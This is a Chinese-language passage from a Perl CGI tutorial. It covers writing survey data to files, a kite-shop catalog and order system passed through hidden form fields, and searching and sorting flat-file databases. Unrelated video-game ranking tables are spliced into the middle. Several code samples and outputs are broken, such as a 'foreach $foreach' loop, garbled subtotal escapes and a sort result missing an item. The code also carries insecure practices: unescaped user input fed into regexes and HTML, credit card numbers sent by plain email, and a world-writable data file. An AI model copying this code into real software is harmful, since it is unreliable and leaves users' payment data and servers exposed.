在这些情况下，文件句柄是`INF`和`OUTF`。你可以为文件句柄使用几乎任何名称，但为了可读性，最好将其命名为相关的名称。

另外，一个警告：你的 Web 服务器可能会对 CGI 运行的路径执行一些奇怪的操作，因此你可能需要使用文件的全路径（例如`/home/you/public_html/somedata.txt`），而不仅仅是文件名。对于 Apache Web 服务器，通常不是这种情况，但某些其他服务器的行为有所不同。请尝试先使用文件名打开文件（前提是文件与你的 CGI 在同一目录下），如果不起作用，则使用全路径。

上述代码的一个问题是它没有检查文件是否真的被打开了。打开文件的安全方式如下：

```perl
open(OUTF,">outdata.txt") or dienice("Can't open outdata.txt
for writing: $!");
```

这里使用了我们在第 4 章中编写的`dienice`子程序，以便在文件无法打开时显示错误消息并退出 CGI。你应该对所有文件打开操作执行此操作，因为如果你不这样做，即使文件没有打开，CGI 也会继续运行，最终可能导致数据丢失。当你意识到你已经运行了一个调查而……

在好几周的时间里，虽然没有数据被保存到输出文件中，但程序仍在运行。

上述`die()`消息中的`$!`是一个 Perl 变量，用于存储失败的`open`操作返回的错误代码。将其打印出来可以帮助你找出`open`失败的原因。

让我们通过修改第五章的`survey.cgi`使其写入数据文件来对其进行测试。请按如下方式编辑`survey.cgi`：

```perl
#!/usr/bin/perl
print "Content-type:text/html\n\n";

read(STDIN, $buffer, $ENV{'CONTENT_LENGTH'});
@pairs = split(/&/, $buffer);
foreach $pair (@pairs) {
    ($name, $value) = split(/=/, $pair);
    $value =~ tr/+/ /;
    $value =~ s/%([a-fA-F0-9][a-fA-F0-9])/pack("C", hex($1))/eg;
    $value =~ s/\n/ /g;       # replace newlines with spaces
    $value =~ s/\r//g;        # remove hard returns
    $value =~ s/\cM//g;       # delete ^M's
    $FORM{$name} = $value;
}

open(OUTF,">>survey.out") or die("Couldn't open survey.out for writing: $!");

# This locks the file so no other CGI can write to it at the
# same time...
flock(OUTF,2);
# Reset the file pointer to the end of the file, in case
# someone wrote to it while we waited for the lock...
seek(OUTF,0,2);

print OUTF "$FORM{'name'}|$FORM{'email'}|";
print OUTF "$FORM{'howreach'}|$FORM{'rating'}|";

%boxes = ( "des" => "Website Design",
           "svr" => "Web Server Administration",
           "com" => "Electronic Commerce",
           "mkt" => "Web Marketing/Advertising",
           "edu" => "Web-Related Education" );
```

```perl
foreach $key (keys %boxes) {
    if ($FORM{$key} == 1) {
        print OUTF "$key,";
    }
}
print OUTF "|$FORM{'comments'}\n";
close(OUTF);
print <<EndHTML;
<html><head><title>Thank You</title></head>
<body>
<h2>Thank You!</h2>
Thank you for your feedback.<p>
<a href="index.html">Return to our home page</a><p>
</body></html>
EndHTML

sub dienice {
    my($msg) = @_;
    print "<h2>Error</h2>\n";
    print $msg;
    exit;
}
```

源代码：`http://www.cgi101.com/class/ch6/survey.txt`

接下来，你需要创建输出文件并使其可写，因为你的 CGI 程序可能无法在目录中创建新文件（除非你将整个目录设置为服务器可写——但这通常是个坏主意，因为这意味着任何人都可以删除该目录中的任何文件或添加新文件）。进入 Unix shell，切换到你的 CGI 所在的目录，然后输入以下命令：

```bash
touch survey.out
chmod a+w survey.out
```

## Top RPG 角色扮演中文版世界排行

| Rank | Game Title | Platform | Year | Score |
|------|------------|----------|------|-------|
| 1 | Chrono Trigger (时空之轮) | SNES | 1995 | 9.8 |
| 2 | Final Fantasy VII (最终幻想7) | PS1 | 1997 | 9.7 |
| 3 | The Witcher 3 (巫师3) | PC/PS4/Xbox | 2015 | 9.6 |
| 4 | Persona 5 (女神异闻录5) | PS4 | 2016 | 9.5 |
| 5 | Suikoden II (幻想水浒传2) | PS1 | 1998 | 9.4 |
| 6 | Final Fantasy VI (最终幻想6) | SNES | 1994 | 9.3 |
| 7 | Dragon Quest VIII (勇者斗恶龙8) | PS2 | 2004 | 9.2 |
| 8 | Mass Effect 2 (质量效应2) | PC/Xbox360 | 2010 | 9.2 |
| 9 | EarthBound (地球冒险) | SNES | 1994 | 9.1 |
| 10 | Xenogears (异度装甲) | PS1 | 1998 | 9.0 |
| 11 | Final Fantasy IX (最终幻想9) | PS1 | 2000 | 9.0 |
| 12 | The Elder Scrolls V: Skyrim (上古卷轴5) | PC/PS3/Xbox | 2011 | 9.0 |
| 13 | Chrono Cross (穿越时空) | PS1 | 1999 | 8.9 |
| 14 | Persona 4 Golden (女神异闻录4G) | PSVita | 2012 | 8.9 |
| 15 | Final Fantasy X (最终幻想10) | PS2 | 2001 | 8.8 |

## Top ACT 动作中文版世界排行

| Rank | Game Title | Platform | Year | Score |
|------|------------|----------|------|-------|
| 1 | The Legend of Zelda: Breath of the Wild (塞尔达传说：旷野之息) | Switch/Wii U | 2017 | 9.9 |
| 2 | God of War (战神) | PS4 | 2018 | 9.8 |
| 3 | Dark Souls (黑暗之魂) | PC/PS3/Xbox360 | 2011 | 9.7 |
| 4 | Monster Hunter: World (怪物猎人：世界) | PC/PS4/Xbox | 2018 | 9.6 |
| 5 | Bloodborne (血源诅咒) | PS4 | 2015 | 9.6 |
| 6 | Devil May Cry 5 (鬼泣5) | PC/PS4/Xbox | 2019 | 9.5 |
| 7 | Sekiro: Shadows Die Twice (只狼：影逝二度) | PC/PS4/Xbox | 2019 | 9.5 |
| 8 | Bayonetta (猎天使魔女) | PC/PS3/Xbox360 | 2009 | 9.4 |
| 9 | Ninja Gaiden Black (忍者龙剑传：黑之章) | Xbox | 2005 | 9.3 |
| 10 | Metal Gear Rising: Revengeance (合金装备崛起：复仇) | PC/PS3/Xbox360 | 2013 | 9.2 |
| 11 | Castlevania: Symphony of the Night (恶魔城：月下夜想曲) | PS1/Saturn | 1997 | 9.2 |
| 12 | Hollow Knight (空洞骑士) | PC/Switch | 2017 | 9.1 |
| 13 | Nioh (仁王) | PC/PS4 | 2017 | 9.0 |
| 14 | Celeste (蔚蓝) | PC/Switch/PS4/Xbox | 2018 | 9.0 |
| 15 | Cuphead (茶杯头) | PC/Xbox/Switch | 2017 | 8.9 |

## Top SRPG 战略角色扮演中文版世界排行

| Rank | Game Title | Platform | Year | Score |
|------|------------|----------|------|-------|
| 1 | Final Fantasy Tactics (最终幻想战略版) | PS1 | 1997 | 9.7 |
| 2 | Fire Emblem: Three Houses (火焰之纹章：风花雪月) | Switch | 2019 | 9.6 |
| 3 | Tactics Ogre: Let Us Cling Together (皇家骑士团2) | SNES/PS1 | 1995 | 9.5 |
| 4 | Disgaea 5 (魔界战记5) | PS4/Switch/PC | 2015 | 9.3 |

## 手动计数

```perl
# First we initialize some counters and hashes for storing the
# summarized data.
$count = 0;
$ratings = 0;
$commentary = "";
%howreach_counts = ();
%involved = ();

%howreach = ( 0 => "",
             1 => "Typed the URL directly",
             2 => "Site is bookmarked",
             3 => "A search engine",
             4 => "A link from another site",
             5 => "From a book",
             6 => "Other" );

foreach $i (@data) {
    chomp($i);
    ($name, $email, $how, $rating, $boxes, $comments) =
    split(/\|/, $i);

    # this is the same as $count = $count + 1;
    $count++;

    $ratings = $ratings + $rating;

    # the following appends "$comments\n" to the end of the
    # $commentary string. The .= construct is just a way to
    # concatenate strings.
    $commentary .= "$comments\n";

    $howreach_counts{$how}++;

    @invlist = split(/,/, $boxes);
    foreach $j (@invlist) {
        $involved{$j}++;
    }
}

$avg_rating = int($ratings / $count);

# Now we can print out a web page summarizing the data.
```


```perl
print <<EndHTML;
<html><head><title>Survey Results</title></head>
<body>
<h2 align="CENTER">Survey Results</h2>

Total visitors: $count<p>

Average rating for this site: $avg_rating<p>

How people reached this site:<br>
<ul>
  <li>(did not answer) - $howreach_counts{0}
  <li>$howreach{1} - $howreach_counts{1}
  <li>$howreach{2} - $howreach_counts{2}
  <li>$howreach{3} - $howreach_counts{3}
  <li>$howreach{4} - $howreach_counts{4}
  <li>$howreach{5} - $howreach_counts{5}
  <li>$howreach{6} - $howreach_counts{6}
</ul>

Involvement in <br>
<ul>
  <li>Website Design: $involved{'des'}
  <li>Web Server Administration: $involved{'svr'}
  <li>Electronic Commerce: $involved{'com'}
  <li>Web Marketing/Advertising: $involved{'mkt'}
  <li>Web-Related Education: $involved{'edu'}
</ul><p>

Comments:<p>
$commentary
EndHTML
```

```perl
sub dienice {
    my($msg) = @_;
    print "<h2>Error</h2>\n";
    print $msg;
    exit;
}
```

源代码：http://www.cgi101.com/class/ch6/surveysumm.txt

运行示例：http://www.cgi101.com/class/ch6/surveysumm.cgi

你会注意到，这个汇总 CGI 实际上比处理调查表单的脚本还要长；汇总民意调查的数据通常是一个冗长且复杂的过程。此外，我们的汇总 CGI 没有对参与调查者的姓名或电子邮件地址进行任何处理；你可能想要编写第二个 CGI 将这些信息转储到另一个文件中，然后你可以利用该文件向调查响应者发送后续邮件。

调查只是数据文件的一个用途。你可以使用相同的代码来举办竞赛、征集建议、填充邮件列表或用于其他交互式应用程序。文本文件数据库也可以用于生成在线目录；我们将在下一章中介绍这一点，以及多 CGI 交互。

## 资源

访问 http://www.cgi101.com/class/ch6/ 获取本章的源代码和链接。

# 7 多脚本表单

一些复杂的 Web 应用程序涉及多个链接在一起的 CGI 脚本。一个例子可能是在线目录和订单表单：第一个页面允许用户选择他们想要订购的商品，然后一个 CGI 读取他们的订单并生成第二个页面，要求他们提供账单/发货信息。随后，这个由 CGI 生成的第二个表单由第三个 CGI 处理。

一种常用的实现方法是在表单中使用隐藏字段。例如，如果你的脚本读取了一个产品编号和数量，并且你想将其传递给下一个脚本，你可以在 HTML 输出中这样做：

```html
<input type="hidden" name="product" value=$prodnum>
<input type="hidden" name="qty" value=$qty>
```

这些字段与表单中的任何其他字段一样，不同之处在于它们对查看者不可见（但它们会出现在页面的“查看源代码”中，并且会被浏览器缓存，因此不建议在这些字段中包含敏感信息）。隐藏字段被你的 CGI 解码的方式与所有其他表单输入字段的解码方式相同。

另一种方法是将订单信息存储在一个临时文件中（或数据库中），并使用唯一编号（如客户 ID 或订单 ID）作为索引，然后仅将该 ID 作为隐藏值传递。随后，各个 CGI 在处理订单时会从该文件或数据库中读取和写入数据。

让我们通过编写一个简单的在线目录和订购系统来尝试一下。首先，你需要创建一个产品的文本文件数据库。这个示例是一个风筝店。以下是产品数据库，我们将其命名为 `data.db`：

```
331|Rainbow Snowflake|IN|118.00
311|French Military Kite|IN|26.95
312|Classic Box Kite|LOW|19.95
340|4-Cell Tetra|IN|45.00
327|3-Cell Box|OUT|29.95
872|Classic Dragon|IN|39.00
5506|Harlequin Butterfly Kite|IN|39.00
3623|Butterfly Delta|IN|16.95
514|Pocket Parafoil 2|IN|19.95
7755| Spitfire|IN|45.00
```

该数据库有 4 个字段：库存编号、产品名称、库存状态（`IN`/`LOW`/`OUT`）和价格。你也可以添加其他字段——如描述性文本、产品图片的路径等。将这些数据存储在中央文件中的优点是，你所有的 CGI 和页面都可以从该文件中获取信息，因此你只需保持该文件的最新状态，而不需要在每次商品价格或状态变更时编辑数十个页面。

接下来我们将创建一个读取产品数据库并生成订单表单的 CGI。这个 CGI 会检查每个项目的状态，并且不会打印缺货的项目。

创建一个名为 `catalog.cgi` 的新文件，并输入以下脚本：

```perl
#!/usr/bin/perl
print "Content-type:text/html\n\n";

open(INF, "data.db") or die("Can't open data.db: $! \n");
@grok = <INF>;
close(INF);

print <<EndHdr;
<html><head><title>Kite Catalog</title></head>
<body>
<h2 align="CENTER">Kite Catalog</h2>

To order, enter the quantity in the input box next to the item.<p>
<form action="order.cgi" method="POST">
EndHdr

foreach $i (@grok) {
    chomp($i);
    ($stocknum,$name,$status,$price) = split(/\|/,$i);
    if ($status ne "OUT") {
        print "<input type=\"text\" name=\"$stocknum\" size=5>
        $name = \$price<p>\n";
    }
}

print <<EndFoot;
<input type="submit" value="Order!"><p>
</body></html>
EndFoot

sub dienice {
    my($msg) = @_;
    print "<h2>Error</h2>\n";
    print $msg;
    exit;
}
```

源代码：http://www.cgi101.com/class/ch7/catalog.txt

运行示例：http://www.cgi101.com/class/ch7/catalog.cgi

`catalog.cgi` 的输出

保存文件并在 Web 浏览器中调用。（记得你还需要创建 `data.db` 文件，并使用 `chmod` 将其设置为全球可读。）

接下来我们将创建 `order.cgi`，它读取从目录表单发送的数据，并为客户的账单信息创建一个新表单。该 CGI 还会将之前表单发送的数据作为隐藏字段存储，并计算小计。

```perl
#!/usr/bin/perl
#
# order.cgi
#
print "Content-type:text/html\n\n";

read(STDIN, $buffer, $ENV{'CONTENT_LENGTH'});
@pairs = split(/&/, $buffer);
foreach $pair (@pairs) {
    ($name, $value) = split(/=/, $pair);
    $value =~ tr/+/ /;
    $value =~ s/%([a-fA-F0-9][a-fA-F0-9])/pack("C", hex($1))/eg;
    $value =~ s/\n/ /g;        # added to strip line breaks
    $value =~ s/\r//g;
    $value =~ s/\cM//g;
    $FORM{$name} = $value;
}

print <<EndHead;
<html><head><title>Order Form - Step 2</title></head>
<body>
<h2 align="CENTER">Order Form - Step 2</h2>
Here's what you've ordered:<p>
<form action="order2.cgi" method="POST">
EndHead

open(INF,"data.db") or dienice("Can't open data.db: $! \n");
@grok = <INF>;
close(INF);

$subtotal = 0;
foreach $i (@grok) {
    chomp($i);
    ($stocknum,$name,$status,$price) = split(/\|/,$i);
    if ($FORM{$stocknum} ne "") {
        $subtotal = $subtotal + ($price * $FORM{$stocknum});
        print "<b>$name</b> (#$stocknum) - $price ea., qty: $FORM{$stocknum}<br>\n";
        print "<input type=\"hidden\" name=\"$stocknum\" value=$FORM{$stocknum}>\n";
    }
}
```

```perl
if ($subtotal == 0) {
    &dienice("You didn't order anything!");
}

print <<EndForm;
<p>
Subtotal: \$subtotal
<p>
Please enter your billing information:<p>

<table border=0>
<tr><td>Your Name:</td><td><input type="text" name="name" size=50></td></tr>
<tr><td>Shipping Address:</td><td><input type="text" name="ship_addr" size=50></td></tr>
<tr><td>City:</td><td><input type="text" name="ship_city" size=50></td></tr>
<tr><td>State/Province:</td><td><input type="text" name="ship_state" size=30></td></tr>
<tr><td>ZIP/Postal Code:</td><td><input type="text" name="ship_zip" size=30></td></tr>
<tr><td>Country:</td><td><input type="text" name="ship_country" size=30></td></tr>
<tr><td>Phone:</td><td><input type="text" name="phone" size=30></td></tr>
<tr><td>Email:</td><td><input type="text" name="email" size=30></td></tr>
<tr><td>Payment Method: </td><td>
<select name="paytype">
<option>Visa
<option>MasterCard
<option>American Express
<option>Discover
<option value="check">Check/Money Order
</select>
</td>
</tr>
<tr><td></td><td>If paying by credit card, please fill out the following:</td></tr>
<tr><td>Credit Card #:</td><td><input type="text" name="ccno" size=50></td></tr>
<tr><td>Expiration Date (MM/YY):</td><td><input type="text" name="ccexp" size=5></td></tr>
<tr><td>Billing Address:</td><td><input type="text" name="bill_addr" size=50></td></tr>
<tr><td>City:</td><td><input type="text" name="bill_city" size=50></td></tr>
<tr><td>State/Province:</td><td><input type="text" name="bill_state" size=30></td></tr>
<tr><td>ZIP/Postal Code:</td><td><input type="text" name="bill_zip" size=30></td></tr>
<tr><td>Country:</td><td><input type="text" name="bill_country" size=30></td></tr>
</table>
<p>
<input type="submit" value="Place Order">
<input type="reset" value="Clear Form">
</form>
</body>
</html>
EndForm

sub dienice {
    my($msg) = @_;
    print "<h2>Error</h2>\n";
    print $msg;
    exit;
}
```

> 源代码：http://www.cgi101.com/class/ch7/order.txt

这个脚本仅为实际订购的商品创建隐藏字段，而不是为数据库中的每个商品都创建。（将页面加载到浏览器后，尝试"查看源代码"——你会看到其中的隐藏字段。）如果访客没有订购任何商品，它还会打印一个错误页面。注意我们这里使用了一个表格来格式化表单——这样可以将表单输入字段对齐成整齐的一列，而不是让它们散落在页面上。

最后，我们创建 `order2.cgi`，它读取客户账单信息和此表单中的隐藏字段，处理订单，并将其通过邮件发送给我们。




# 处理表单与搜索数据

## 处理表单

以下是一个用于处理订单表单的完整 CGI 脚本示例：

```perl
#!/usr/bin/perl
#
# order2.cgi
#
$mailprog = "/usr/sbin/sendmail";
print "Content-type:text/html\n\n";

read(STDIN, $buffer, $ENV{'CONTENT_LENGTH'});
@pairs = split(/&/, $buffer);
foreach $pair (@pairs) {
    ($name, $value) = split(/=/, $pair);
    $value =~ tr/+/ /;
    $value =~ s/%([a-fA-F0-9][a-fA-F0-9])/pack("C", hex($1))/eg;
    $value =~ s/\n/ /g;      # added to strip line breaks
    $value =~ s/\r//g;
    $value =~ s/\cM//g;
    $FORM{$name} = $value;
}

# here we check to make sure they actually filled out all
# the fields. if they didn't, generate an error.

print "<html><head><title>Results</title></head>\n<body>\n";

@required = ("name","ship_addr","ship_city","ship_state","ship_zip",
"email");
foreach $i (@required) {
    if ($FORM{$i} eq "") {
        &dienice("You must fill out the fields for your name, e-mail address, and shipping address.");
    }
}

# if they're not paying by check, we also must make sure they
# filled out the fields for credit card number, expiration
# date, and billing address.
if ($FORM{'paytype'} ne "check") {
    @cc_required = ("ccno","ccexp","bill_addr","bill_zip");
    foreach $i (@cc_required) {
        if ($FORM{$i} eq "") {
            &dienice("You must fill out the fields for credit card number, expiration date, and billing address.");
        }
    }
}

# now we proceed.
print <<EndHead;
<h2>Thank You!</h2>
Here's your receipt (print this out for your records):<p>
<pre>
EndHead

open(INF,"data.db") or dienice("Can't open data.db: $! \n");
@grok = <INF>;
close(INF);

open(MAIL,"|$mailprog -t") or &dienice("Couldn't send mail.");
printf MAIL "To: kites\@cgi101.com\n";
printf MAIL "Subject: Kite Order from $FORM{'email'}\n\n";

# print the info to the MAIL message:
printf MAIL <<End1;
Order From: $FORM{'name'}
Shipping Address: $FORM{'ship_addr'}
City: $FORM{'ship_city'}
State: $FORM{'ship_state'}
ZIP: $FORM{'ship_zip'}
Address: $FORM{'ship_country'}
Phone: $FORM{'phone'}
Email: $FORM{'email'}

Payment Method: $FORM{'paytype'}
End1

# now print it again to the output page:
print <<End2;
Order From: $FORM{'name'}
Shipping Address: $FORM{'ship_addr'}
City: $FORM{'ship_city'}
State: $FORM{'ship_state'}
ZIP: $FORM{'ship_zip'}
Address: $FORM{'ship_country'}
Phone: $FORM{'phone'}
Email: $FORM{'email'}

Payment Method: $FORM{'paytype'}
End2

print MAIL "\nItems Ordered:\n";
print "\nItems Ordered:\n";

$subtotal = 0;
foreach $i (@grok) {
    chomp($i);
    ($stocknum,$name,$status,$price) = split(/\|/,$i);
    if (exists $FORM{$stocknum}) {
        $subtotal = $subtotal + ($price * $FORM{$stocknum});
        print "$name (#$stocknum) - \$$price ea., qty: $FORM{$stocknum}\n";
        print MAIL "$name (#$stocknum) - \$$price ea., qty: $FORM{$stocknum}\n";
    }
}

$total = $subtotal + 3;

print MAIL <<Endsub;
Subtotal: \$\$subtotal
Shipping: \$3.00
Total: \$\$total
Endsub

print <<Endsub2;
Subtotal: \$\$subtotal
Shipping: \$3.00
Total: \$\$total
</pre>
Endsub2

# credit card info only input to MAIL
if ($FORM{'paytype'} ne "check") {
    print MAIL "Card#: $FORM{'ccno'}  Exp: $FORM{'ccexp'}\n";
    print MAIL "Billing Address: $FORM{'bill_addr'}\n";
    print MAIL "City: $FORM{'bill_city'}\n";
    print MAIL "State: $FORM{'bill_state'}\n";
    print MAIL "ZIP: $FORM{'bill_zip'}\n";
    print "Thank you for your order. Your $FORM{'paytype'} will be billed for \$\$total; you'll receive your order within 7-10 days.<p>\n";
} else {
    print "Thank you for your order.  Please send a check or money order for \$\$total to: Kite Store, 555 Anystreet, Somecity, TX 12345.<p>\n";
}

# send the mail!
close(MAIL);

print "</body></html>\n";

sub dienice {
    my($msg) = @_;
    print "<h2>Error</h2>\n";
    print $msg;
    exit;
}
```

源代码：http://www.cgi101.com/class/ch7/order2.txt



如你所见，处理表单可能是一个相当冗长且复杂的过程。你的脚本中需要进行的错误检查和输出格式化越多，脚本就会越长。不过，错误检查是个好主意：你希望防止人们发送不完整的订单。通过现在就检查数据，你就不必花时间联系客户来核实缺失的信息了。

本章中的示例实际上相当简单；我们的商品目录中没有很多商品，所以很容易将它们全部列在一个订单页面上。同样的设置也可以用于更大、更复杂的目录。假设我们的风筝店有数百种不同的风筝，分为几个不同的产品线（如箱式风筝、特技风筝、三角风筝、软体风筝、菱形风筝等）。那么我们需要编辑`data.db`文件，添加一个类别字段，如下所示：

```
331|Rainbow Snowflake|IN|118.00|BOX
311|French Military Kite|IN|26.95|BOX
312|Classic Box Kite|LOW|19.95|BOX
340|4-Cell Tetra|IN|45.00|BOX
327|3-Cell Box|IN|29.95|BOX
872|Classic Dragon|IN|39.00|OTHER
5506|Harlequin Butterfly Kite|IN|39.00|DELTA
3623|Butterfly Delta|IN|16.95|DELTA
514|Pocket Parafoil 2|IN|19.95|PARAFOIL
7755|Spitfire|IN|45.00|STUNT
```

现在我们可以设置一个 HTML 页面，列出各种风筝类别，并将每个类别链接到`catalog.cgi`，使用查询字符串来指示要显示哪个产品线：

```
<a href="catalog.cgi?BOX">Box Kites</a>
```

对`catalog.cgi`稍作修改，我们现在就可以只显示该类别中的风筝了：

```perl
$cat = $ENV{'QUERY_STRING'};

foreach $foreach $i (@grok) {

    chomp($i);

    ($stocknum,$name,$status,$price,$category) = split(/\|/,$i);

    if ($status ne "OUT" and $cat eq $category) {

        print "<input type=\"text\" name=\"$stocknum\" size=5> $name - \$$price<p>\n";

    }

}
```

其余的订单脚本无需更改。

这种类型的订购系统的一个缺点是它涉及大量产品数据库的打开、读取和关闭操作。这相当低效；更好的处理方法是使用关系型数据库（如 SQL）。我们将在第 18 章中介绍数据库编程。

### 资源

访问 http://www.cgi101.com/class/ch7/ 获取本章的源代码和链接。

## 搜索与排序

有几种在文件中搜索数据的方法。你可以读取文件并一次遍历每条记录，尝试匹配你要查找的数据。或者你可以使用 Perl 的`grep`函数一次性搜索整个列表。

### 搜索

让我们使用上一章中的风筝数据库：

| 库存编号 | 名称 | 状态 | 价格 |
|---|---|---|---|
| 331 | Rainbow Snowflake | IN | 118.00 |
| 311 | French Military Kite | IN | 26.95 |
| 312 | Classic Box Kite | LOW | 19.95 |
| 340 | 4-Cell Tetra | IN | 45.00 |
| 327 | 3-Cell Box | OUT | 29.95 |
| 872 | Classic Dragon | IN | 39.00 |
| 5506 | Harlequin Butterfly Kite | IN | 39.00 |
| 3623 | Butterfly Delta | IN | 16.95 |
| 514 | Pocket Parafoil 2 | IN | 19.95 |
| 7755 | Spitfire | IN | 45.00 |

假设你想让用户在数据库中搜索某个特定的风筝。你的 HTML 表单看起来像这样：

```html
<form action="search.cgi" method="POST">
Enter the name of the kite you're looking for:
<input type="text" name="name" size=30>
<input type="submit" value="Search">
</form>
```

然后，你的 CGI 将读取整个数据文件并使用 Perl 的`grep`函数来搜索数据。`grep`的实际语法为：

```perl
@results = grep(/pattern/,@listname);
```

`/pattern/`是你要查找的模式的正则表达式。它可以是一个简单的字符串，例如`/Box kite/`，也可以是一个复杂的正则表达式模式。有关正则表达式的更多信息，请参阅第 14 章。

`/pattern/`是区分大小写的。如果你想进行不区分大小写的匹配，应该使用`/pattern/i`。模式后面的 “i” 表示“匹配时不区分大小写”。

这是一个使用`grep`查找数据的示例：

```perl
#!/usr/bin/perl

$datafile = "data.db";

read(STDIN, $buffer, $ENV{'CONTENT_LENGTH'});

@pairs = split(/&/, $buffer);

foreach $pair (@pairs) {

    ($name, $value) = split(/=/, $pair);

    $value =~ tr/+/ /;

    $value =~ s/%([a-fA-F0-9][a-fA-F0-9])/pack("C", hex($1))/eg;

    $value =~ s/~!/ ~!/g;

    $FORM{$name} = $value;

}

$searchstr = $FORM{'name'};

open(INF,$datafile) or dienice("Can't open $datafile: $! \n");

@mydata = <INF>;

close(INF);

print "Content-type:text/html\n\n";

print "<html><head><title>Search Results</title></head>\n";

print "<body><h3>Search Results</h3>\n";

@results = grep(/$searchstr/i,@mydata);

if ($#results >= 0) {

    foreach $i (@results) {

        chomp($i);

        ($stocknum,$name,$status,$price) = split(/\|/,$i);

        print "<b>$name</b> (#$stocknum) - \$$price<br>\n";

    }

} else {

    print "No results found.<p>\n";

}

print "</body></html>\n";

sub dienice {

    my($msg) = @_;

    print "<h2>Error</h2>\n";

    print $msg;

    exit;

}
```

源代码：http://www.cgi101.com/class/ch8/search.txt
运行示例：http://www.cgi101.com/class/ch8/search.html

这个示例也会匹配其他字段中的内容——例如，如果访问者输入一个数字，他们可能会得到一个库存编号或价格匹配该数字的书籍。为了解决这个问题，你可以修改上述脚本，通过将结果行与用户希望搜索的字段进行比对来测试：

```perl
@results = grep(/$searchstr/i,@mydata);

$found = 0;

if ($#results >= 0) {

    foreach $i (@results) {

        chomp($i);

        ($stocknum,$name,$price,$status) = split(/\|/,$i);

        if ($name =~ $searchstr) {

            print "<b>$name</b> ($stocknum) - \$$price<br>\n";

            $found = 1;

        }

    }

} else {

    print "No results found.<p>\n";

}

if ($found == 0) {

    print "No results found.<p>\n";

}
```


在这个示例中，我们在循环外部保留了另一个标志（`$found`），并且仅在搜索字符串真正匹配风筝名称时才将其设置为 1。如果没有匹配，这意味着匹配到了产品名称以外的内容（例如价格或库存编号中的数字），但我们不希望用户知道这一点，所以我们只打印 “No results found.”。

另一种搜索文件的方法是完全不使用 `grep`，而是简单地遍历文件中的每个元素并尝试匹配你要查找的数据。将第一个脚本中的结果循环替换为以下代码：

```perl
$count = 0;

foreach $i (@mydata) {
    chomp($i);
    ($stocknum, $name, $status, $price) = split(/\|/, $i);

    if ($name =~ $searchstr) {
        print "<b>$name</b> (#$stocknum) - \$$price<br>\n";
        $count = $count + 1;
    }
}

$nicestr = "items";

if ($count == 1) {
    $nicestr = "item";
}

print "<p>$count $nicestr found.<p>\n";
```

除非你的数据量非常大，否则这种方法没有问题。Perl 可以很快地处理一个包含几百条记录的小文件，但如果你有一个包含 20,000 个名称的数据库，这种方法将花费更长时间。对于每小时或每天仅运行一次的程序，这可能不是问题，但如果你有一个每秒都要读取数据文件的高流量网站，你确实应该考虑切换到 SQL 数据库。有关数据库编程的信息，请参阅第 18 章。

## 排序

Perl 提供了一个简单的 `sort` 函数；默认情况下按字母顺序排序。这是一个基础示例：

```perl
@fruits = ("apple", "orange", "banana", "lemon", "kiwi");

foreach $i (sort @fruits) {
    print "$i\n";
}
```

运行此脚本将得到以下结果：

```text
apple
banana
kiwi
lemon
```

然而，如果你使用数字而不是字符串，结果将完全不同：

```perl
@nums = (12, 33, 145, 2, 3, 3442, 40, 776);

foreach $i (sort @nums) {
    print "$i\n";
}
```

返回结果：

```text
12
145
2
3
33
3442
40
776
```

这可能不是你想要的结果；通常如果你有一个数字列表，你希望它们按数值排序。幸运的是，Perl 的 `sort` 函数有一个极其有用且强大的功能——它允许你定义自己的子程序来规定排序顺序。调用方式如下：

```perl
sort subname @list
```

你指定的子程序会被调用来处理待排序列表中每一对元素。值通过 `$a`（第一个元素）和 `$b`（第二个元素）传递。子程序必须返回一个数值：如果 `$a` 应该排在 `$b` 之前，则返回 `-1`；如果它们相等，则返回 `0`；如果 `$a` 应该排在 `$b` 之后，则返回 `1`。

以下是如何编写一个处理数值排序的函数：

```perl
sub numerically {
    return $a <=> $b;
}
```

`<=>` 运算符是数值的比较运算符；如果左值小于右值，则返回 `-1`；如果相等，则返回 `0`；如果左值大于右值，则返回 `1`。（对于字符串，请使用 `cmp` 代替 `<=>`。）这正是我们的排序子程序必须返回的值。现在运行你的数值排序：

```perl
#!/usr/bin/perl

@nums = (12, 33, 145, 2, 3, 3442, 40, 776);

foreach $i (sort numerically @nums) {
    print "$i\n";
}

sub numerically {
    return $a <=> $b;
}
```

你将得到正确的结果：

- 2
- 3
- 12
- 33
- 40
- 145
- 776
- 3442

这里一个小提示——子程序不需要 `return` 语句。默认情况下，它会返回例程中最后一个语句的值。你也不需要将语句与大括号 `{ }` 分开写在不同的行上。因此，像这样编写你的排序子程序同样有效：

```perl
sub numerically { $a <=> $b; }
```

你也不限于仅进行数值排序。你的排序函数可以编写为处理**任何**类型的数据。让我们回到我们的风筝数据库。

```text
331|Rainbow Snowflake|IN|118.00
311|French Military Kite|IN|26.95
```

假设你想按价格对风筝进行排序，将最便宜的风筝排在前面。由于你将把整个数据记录传递给排序子程序，该例程需要拆分每条记录以获取价格。这是一个示例：

```perl
#!/usr/bin/perl

print "Content-type:text/html\n\n";

open(INF, "data.db") or dienice("Can't open data.db: $! \n");
```

```perl
@kites = <INF>;

close(INF);

print "<h3>Kites, by price:</h3>\n\n";

foreach $i (sort byprice @kites) {
    chomp($i);
    ($stocknum, $name, $status, $price) = split(/\|/, $i);
    print "$name (#$stocknum) - \$$price<br>\n";
}

sub byprice {
    @a = split(/\|/, $a);
    @b = split(/\|/, $b);
    $a[3] <=> $b[3];
}

sub dienice {
    my($msg) = @_;
    print "<h2>Error</h2>\n";
    print $msg;
    exit;
}
```

源代码：`http://www.cgi101.com/class/ch8/sort.txt`  
运行示例：`http://www.cgi101.com/class/ch8/sort.cgi`

结果应该如下所示：

```text
Kites, by price:

Butterfly Delta (#3623) - $16.95

Classic Box Kite (#312) - $19.95

Pocket Parafoil 2 (#514) - $19.95

French Military Kite (#311) - $26.95

3-Cell Box (#327) - $29.95

Harlequin Butterfly Kite (#5506) - $39.00

Classic Dragon (#872) - $39.00

4-Cell Tetra (#340) - $45.00

Spitfire (#7755) - $45.00

Rainbow Snowflake (#331) - $118.00
```

如果你想按相反顺序列出，让最贵的排在前面，你可以使用 `reverse` 函数：

```perl
foreach $i (reverse sort byprice @kites) {
```

这将按价格从高到低打印列表。

你可以用这种方法创建自己的自定义排序算法。即使是最复杂的排序，用 Perl 也能轻松完成。它们也不一定是数字排序。下面是一个排序函数示例，它对列出虚拟域名客户的数据文件进行排序。数据格式如下：

| 列 1 | 列 2 | 用户 | 域名 | 位置 |
| --- | --- | --- | --- | --- |
| 001 | 004 | cyberrock | cyberclub.com | langley On |
| 001 | 005 | anichon | anichonaaron.com | langley On |
| 001 | 006 | aoa-www | aoa.org | langley On |
| 001 | 007 | applieda | applana1.com | langley On |
